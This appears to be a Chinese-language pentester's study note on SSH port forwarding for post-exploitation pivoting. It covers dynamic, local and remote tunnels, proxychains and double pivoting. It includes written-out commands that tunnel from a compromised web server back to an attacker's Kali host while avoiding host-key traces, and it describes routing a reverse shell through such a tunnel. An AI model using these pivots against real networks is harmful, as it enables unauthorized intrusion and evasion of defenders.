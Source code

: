 ```yaml
---
tags:
  - 渗透/后渗透
---
```

## SSH原理概述

> https://www.ramkitech.com/2012/04/how-to-do-ssh-tunneling-port-forwarding.html  
> 在terminal中，当我们敲入ssh someone@private-server.org时，terminal application将调用ssh client，ssh client则连接到private-server.org机器的22端口(由ssh server监听).然后client和server交换Identitiy,public key, cipher suite info并且在server端创建一个新的shell process.随后client和server之间就建立了安全的通道了,这样之后的所有command及response都通过这个secure channel来传递。
> 比如当ssh连接建立后，我执行ls命令。那么ls命令将由ssh client加密封装通过该通道发往server。server则解密取出命令'ls'并且在shell(该shell就是ssh链接创建时所创建的)中执行,所有的输出将被redirect到该隧道的另一端-ssh client上,最后ssh client则解密取出output消息打印在terminal application上。

- ssh 可以同时有许多channels（Shell、Data、X11 Forwarding等），每个channel代表一个服务。
- 通常情况下我们就是使用的 shell channel（可以用 `-N` 忽略创建），但ssh隧道模式下我们用的 data channel。

## 3种类型

### 命令总结

`ssh -L/R [bind_address:]sourcePort:forwardToHost:onPort remoteHost`

- L/R指示 `sourcePort` 是在localhost端（执行命令的host）还是remoteHost
	- 注意：`sourcePort` 是指L/R（本地/远端）要开启监听的端口。例如-R的话是指在远端开启，本地是不会开启端口监听的。
- `forwardToHost:onPort` 不必局限在2台机器之间（参考）
- 注意可以定义多个 -L/R


#### OPSEC

![[Pasted image 20240817183916.png]]

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

- 在Ajla上用www-data用户执行远程端口转发
- 防止在目标机器上保存我们kali的主机公钥
- 为www-data用户生成ssh密钥，并加一些限制（srcIP、仅端口转发、不分配伪终端），将公钥加入kali的 `authorized_keys` 文件：`from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3Nz<SNIP>nin www-data@ajla`


#### 有用选项

-fNTCg

- -f：后台进程，不占用当前shell，只有认证时会到前台。（似乎即使Meterpreter进程死了，ssh隧道依旧生效）
- -N：静默连接（只当作隧道。即不创建shell channel，不登录到远程shell、不发出ssh命令）
- -T：远程主机上不分配伪终端。**通常和N连用**，不过分配了也没事，只是有点没必要。（扩展：本机连接远程远程主机的交互实际上是在与远程主机的伪终端交互）
- -C：压缩。减少带宽，但是可能增加CPU负荷（因为要加解压缩）
- -g：GatewayPorts 关键字，我们可以通过指定它使得其他机器也能使用这个本地端口转发。允许远端host连接本地用于转发的端口。本地端口转发绑定的是 lookback 接口（即上面 `bind_address` 的部分，不开启GatewayPorts配置的话，这里默认localhost），这意味着只有 localhost 或者 127.0.0.1 才能使用本机的端口转发 , 其他机器发起的连接只会得到“ connection refused. ”。【如果不加这个参数，只允许本地主机使用这个端口转发。更安全】


### 1.动态端口转发

- 动态：不必为每个目标创建本地监听端口，一个动态端口应付所有目标——比本地端口转发简约。
	- 服务器检查数据包并决定我们需要将数据包发送到哪里

```shell-session
ssh -D 9050 ubuntu@10.129.15.50
```
![[Pasted image 20240817182226.png]]{ width='600' }

就是在SSH Client前设置个（SOCKS）代理server，并绑定local port 9050。随后用登陆ubuntu并建立ssh connection。

之后在浏览器配置SOCKSv5代理就可以用浏览器访问ubuntu甚至是内网（因为命令在ubuntu解析，ubuntu有内网路由）的资源了。

#### proxychains

> [!note] 现在用proxychains-ng

配置代理IP：`sudo vim /etc/proxychains4.conf`
使用proxychains：`proxychains4 remmina`


也可以在 `~/.ssh/ssh_config` 里添加配置方便操作：
```
Host dest   
	Hostname 192.168.56.10   
	Port 22   
	User ubuntu   
	IdentityFile ~/.ssh/id_rsa
	DynamicForward localhost:5963
```

运行 `ssh dest` 之后，ssh会在本地绑定一个支持SOCKS协议的端口（此处为5963）。


### 2.本地端口转发

```shell-session
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```
![[Pasted image 20240817183232.png]]{ width='600' }

相当于本地ssh client充当代理。Attack的ssh client的监听绑定了1234端口，所以所有到1234的流量都会转发到ssh client，然后流向远端。


进行连接的命令其实会根据remote port的服务进行选择。如可以这样：

- 转发ftp端口：`ftp localhost:localport`
- 转发rdp端口：`rdesktop localhost:localport`


### 3.远程端口转发

```shell-session
ssh -R <PivotHost>:8080:0.0.0.0:8000 ubuntu@<Target> -vN
```
![[Pasted image 20240817183638.png]]{ width='600' }

上图的例子中，Victim执行的msfvenom payload是回连 `Ubuntu的8080`，handler监听 `0.0.0.0:8000`。  
反弹shell回连Ubuntu后通过SSH隧道转发到本地8000端口，得以成功远控。


#### SSH Reverse Dynamic Forward

![[Pasted image 20240817185238.png]]{ width='500' }



## For Windows

### 建立ssh服务端

- WinSSHD： [https://www.bitvise.com/ssh-server](https://www.bitvise.com/ssh-server)
- OpenSSH： [https://sshwindows.sourceforge.net/](https://sshwindows.sourceforge.net/)

关于Proxifier： [https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)


> [!note] 或者在cmd使用[[SSH Tunneling#SSH Reverse Dynamic Forward|远程动态转发]]！




## 高级运用

### Double Pivoting

> https://theyhack.me/Proxychains-Double-Pivoting/

![[Pasted image 20240818001741.png]]{ width='500' }

目标：从attack访问destbox。  
可以想象box1为WebSrv，box2为FileSrv，destbox为DC/特权PC。  
假设box1连接box2、box2连接destbox可以简单实现（因为都属于内网）。  
于是attack无法正向连接box1是通常的情况，所以需要box1反连attack。
#### reverse tunneling

```bash
# 1. attack:2222 ==== jumpbox1:22
they@jumpbox1.local:~$ ssh -fN -R 2222:127.0.0.1:22 <you>@attack.local
# 2. attack上的动态端口8888，连接到jumpbox1
they@attack.local:~$ ssh -fN -D 8888 <jumpbox1-user>@127.0.0.1 -p 2222
## 1&2 in oneline
they@jumpbox1.local:~$ ssh -f -R 2222:127.0.0.1:22 attack.local "ssh -fN -D 8888 127.0.0.1 -p 2222"

# 连接到box1之后重复执行动态隧道的步骤——即前文假设可简单实现的内容
they@jumpbox1.local:~$ ssh -fN -D 9999 user@jumpbox2.local

# 攻击机的proxychains.conf配置
<SNIP>
[ProxyList]
socks4  127.0.0.1 8888
socks4  127.0.0.1 9999 # For box1 to box2

# 访问destbox
they@attack.local:~$ proxychains4 -f proxychains.conf curl http://destbox.local
```

- 建议配置 `jumpbox1-user` 的有限制免密连接：[restrict accordingly to just tunnels](https://unix.stackexchange.com/questions/14312/how-to-restrict-an-ssh-user-to-only-allow-ssh-tunneling/14313#14313)


#### 内网隧道的另一实现思路

> https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6

按该文思路，针对前一节的“假设box1连接box2、box2连接destbox可以简单实现”的命令：
```bash
# 1. box2上建立动态隧道，但是SSH服务端在box2的loopback
they@jumpbox2.local:~$ ssh -D 10000 <jumpbox1-user>@127.0.0.1
# 2. box1:9999 ==== box2:10000
they@jumpbox2.local:~$ ssh -R 9999:127.0.0.1:10000 <jumpbox1-user>@jumpbox1.local

# 在攻击机上
# 正向连接box1：配置127.0.0.1:8888，然后用proxychains即可。
# 从box1反向隧道：参照前一节。
```
